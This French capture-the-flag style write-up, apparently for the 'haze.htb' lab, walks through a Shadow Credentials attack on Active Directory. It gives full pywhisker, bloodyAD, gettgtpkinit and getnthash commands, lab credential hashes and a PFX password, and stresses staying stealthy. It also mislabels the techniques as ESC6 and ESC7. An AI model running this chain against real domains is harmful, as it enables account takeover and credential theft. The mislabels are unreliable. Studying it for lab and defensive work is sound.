 # Shadow Credentials

## <mark style="color:red;">Attaque Shadow Credentials (AddKeyCredentialLink)</mark>

### <mark style="color:blue;">Description de la faille</mark>

L'attaque **Shadow Credentials** exploite l'attribut `msDS-KeyCredentialLink` introduit avec Windows Hello for Business dans Active Directory. Cette technique permet à un attaquant ayant des privilèges d'écriture sur un objet utilisateur d'ajouter des "credentials alternatifs" sous forme de certificats, permettant ensuite l'authentification PKINIT (Public Key Initial Authentication) pour obtenir un TGT Kerberos.

### <mark style="color:blue;">Mécanisme technique</mark>

#### L'attribut msDS-KeyCredentialLink

```
msDS-KeyCredentialLink = Attribut multivalué stockant les clés publiques
                        ↓
        Chaque entrée = KeyCredential contenant :
        - DeviceID (GUID unique)
        - Clé publique (certificat)
        - Métadonnées (création, usage)
```

#### Processus d'exploitation

```
1. Attaquant a WriteProperty/GenericWrite sur un utilisateur
2. Génère une paire de clés RSA (privée/publique)
3. Crée un KeyCredential avec la clé publique
4. Injecte dans msDS-KeyCredentialLink de la victime
5. Utilise PKINIT avec la clé privée pour obtenir un TGT
6. Extrait le hash NT via U2U (User-to-User)
```

### <mark style="color:blue;">Prérequis pour l'attaque</mark>

#### Droits nécessaires

* **WriteProperty** sur l'attribut `msDS-KeyCredentialLink`
* **GenericWrite** ou **GenericAll** sur l'objet utilisateur cible
* **WriteOwner** + **WriteDACL** (pour s'accorder les droits)

#### Infrastructure requise

* Active Directory avec niveau fonctionnel ≥ 2016
* Windows Hello for Business activé (pas obligatoire)
* PKI ou certificats auto-signés acceptés

### <mark style="color:blue;">Outils d'exploitation</mark>

#### pywhisker (Python)

```bash
# Ajouter un KeyCredential à edward.martin
python3 pywhisker.py -d "haze.htb" \
    -u "Haze-IT-Backup$" \
    -H ":735c02c6b2dc54c3c8c6891f55279ebc" \
    --target "edward.martin" \
    --action "add" \
    --filename test1

# Résultat :
# - Certificat généré : test1.pfx
# - Mot de passe PFX : dxQ9JVHZr4Ic5XQLMwUM
# - DeviceID : e9c8619d-56ca-f459-7b2d-5abe4d379b6f
```

#### Whisker (C#/.NET)

```powershell
# Alternative Windows native
.\Whisker.exe add /target:edward.martin /domain:haze.htb /dc:dc01.haze.htb
```

***

L’utilisateur `mark.adams`, initialement non privilégié, a escaladé ses privilèges en abusant des ACLs sur un compte gMSA (`Haze-IT-Backup$`), récupéré ses credentials, puis les a utilisés pour :

1. Prendre **possession d’un groupe (`Support_Services`)**
2. S’octroyer les droits **GenericAll** sur ce groupe
3. Abuser du droit sur un **compte utilisateur ciblé (`edward.martin`)**
4. Injecter une **Shadow Credential (ESC6)** via `pyWhisker`
5. Obtenir un **TGT Kerberos via PKINITtools**
6. Extraire le **NT hash** final d’`edward.martin` → full compromise.

***

### <mark style="color:red;">🎯</mark> <mark style="color:red;"></mark><mark style="color:red;">**Objectif**</mark>

* Escalader vers un utilisateur avec des privilèges plus élevés (potentiellement DA).
* Rester furtif sans modifier de mot de passe ni déclencher d’alerte.
* Exploiter les **ACL Active Directory** et **Shadow Credentials** (T1556.002).

***

### <mark style="color:red;">🧱</mark> <mark style="color:red;"></mark><mark style="color:red;">**Étapes techniques détaillées**</mark>

***

#### <mark style="color:green;">🔐 1.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Utilisation du gMSA**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`Haze-IT-Backup$`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**(credentials volés)**</mark>

Récupérés précédemment via `gMSADumper.py`.

```bash
Haze-IT-Backup$:::735c02c6b2dc54c3c8c6891f55279ebc
```

***

#### <mark style="color:green;">🏗️ 2.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Changement de propriétaire d’un groupe (**</mark><mark style="color:green;">**`Support_Services`**</mark><mark style="color:green;">**)**</mark>

```bash
bloodyAD set owner 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Haze-IT-Backup$ devient **owner du groupe**, donc a un droit implicite **Full Control**.

***

#### <mark style="color:green;">🎯 3.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Ajout du droit**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**`GenericAll`**</mark><mark style="color:green;">**&#x20;**</mark><mark style="color:green;">**sur le groupe**</mark>

```bash
bloodyAD add genericAll 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Assure la capacité de modifier les membres du groupe.

***

#### <mark style="color:green;">➕ 4.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Ajout du gMSA comme membre du groupe**</mark>

```bash
bloodyAD add groupMember 'Support_Services' 'Haze-IT-Backup$'
```

➡️ Utilisé comme levier pour légitimer sa position dans le domaine et préparer la suite.

***

#### <mark style="color:green;">🧬 5.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Injection d’un certificat Shadow Credential (ESC6)**</mark> <mark style="color:green;"></mark><mark style="color:green;">sur</mark> <mark style="color:green;"></mark><mark style="color:green;">`edward.martin`</mark>

```bash
pywhisker.py --target "edward.martin" --action "add" --filename test1
```

* Génére un **KeyCredential** (DeviceID) lié au compte cible.
* Modifie l’attribut `msDS-KeyCredentialLink` de l’utilisateur.

***

#### <mark style="color:green;">🪪 6.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Obtenir un TGT via PKINIT avec le certificat injecté**</mark>

```bash
gettgtpkinit.py -cert-pfx test1.pfx -pfx-pass dxQ9JVHZr4Ic5XQLMwUM haze.htb/edward.martin edward.martin.ccache
```

➡️ Obtenu grâce à la clef d’auth injectée.

***

#### <mark style="color:green;">🔓 7.</mark> <mark style="color:green;"></mark><mark style="color:green;">**Extraction du NT hash d’**</mark><mark style="color:green;">**`edward.martin`**</mark>

```bash
export KRB5CCNAME=edward.martin.ccache
getnthash.py -key <AS-REP key> haze.htb/edward.martin
```

✅ Résultat :

```
NT Hash: 09e0b3eeb2e7a6b0d419e9ff8f4d91af
```

***

### <mark style="color:red;">🛠️</mark> <mark style="color:red;"></mark><mark style="color:red;">**Chaîne d’exploitation ASCII**</mark>

```
[ mark.adams (user) ]
     |
     | → abuse ACL (ESC7)
     v
[ Haze-IT-Backup$ (gMSA) ]
     |
     | → become owner of group
     v
[ Support_Services (group) ]
     |
     | → write msDS-KeyCredentialLink on
     v
[ edward.martin (target user) ]
     |
     | → Shadow Credential injected (ESC6)
     v
[ Kerberos TGT → NT hash extraction ]
     |
     v
[ Full compromise / lateral movement ]
```

***

